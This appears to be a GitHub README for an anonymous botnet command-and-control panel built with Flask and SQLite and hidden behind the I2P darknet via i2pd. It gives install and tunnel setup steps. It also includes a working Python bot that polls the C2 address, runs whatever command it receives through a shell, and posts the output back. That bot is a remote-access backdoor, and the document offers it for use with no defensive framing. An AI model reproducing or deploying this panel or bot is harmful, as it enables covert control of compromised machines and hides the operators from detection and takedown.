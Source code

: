 # 🕵️‍♂️ I2P Command & Control Panel

A fancy, lightweight, and anonymous Command & Control (C2) panel built using Flask, Bootstrap 5, and SQLite — accessible via the I2P darknet using `i2pd`.

---

## ✅ Features

- ✨ Fancy Bootstrap 5 UI
- 🧠 SQLite-based bot command/output tracking
- 🔐 Full C2 communication over I2P `.b32.i2p` addresses
- 🕸️ Remote command dispatch and bot response capture

---

## ✅ 1. Installation

### Requirements

- Python 3.8+
- Flask
- SQLite3
- `i2pd` (I2P router daemon)

### Install Flask

```
pip install flask
````

---

## ✅ 2. Running the Panel

Clone and run:

```
git clone https://github.com/yourname/i2p-c2-panel.git
cd i2p-c2-panel
python3 app.py
```

The panel will run on `http://127.0.0.1:8080`

---

## ✅ 3. I2P Tunnel Setup

### Option A: Using `i2pd` (Fastest and Headless)

#### Install i2pd (Debian/Ubuntu):

```
sudo apt install i2pd
```

#### Edit `~/.i2pd/tunnels.conf`:

```ini
[c2_panel]
type = http
address = 127.0.0.1
port = 8080
inport = 80
keys = c2.dat
```

#### Start i2pd:

```
sudo systemctl start i2pd
```

#### Check the I2P hostname:

```
cat ~/.i2pd/c2.dat.b32.i2p
```

Your panel will now be available at:

```
http://[c2name].b32.i2p
```

---

## ✅ 4. Bot Communication Example

Here’s an example Python bot that polls the C2 for commands and submits output.

```python
import time, requests, subprocess

C2 = "http://[your-c2-name].b32.i2p"
NAME = "test-bot"

while True:
    try:
        cmd = requests.get(f"{C2}/get_command").text
        if cmd:
            out = subprocess.getoutput(cmd)
            requests.post(f"{C2}/submit_output", data={"name": NAME, "output": out})
        time.sleep(30)
    except:
        time.sleep(60)
```

**Note:** Configure your I2P proxy or local tunnels so that bots can resolve `.b32.i2p` addresses.

---

## ✅ 5. Directory Structure

```
i2p-c2-panel/
├── app.py
├── c2.db  (auto-created)
└── templates/
    └── index.html
```

---

## ✅ 6. Summary

| Component   | Purpose                         |
| ----------- | ------------------------------- |
| Flask       | Backend server and web UI       |
| Bootstrap 5 | Fancy UI for control panel      |
| SQLite      | Stores bot output + commands    |
| I2P / i2pd  | Makes it accessible anonymously |

---
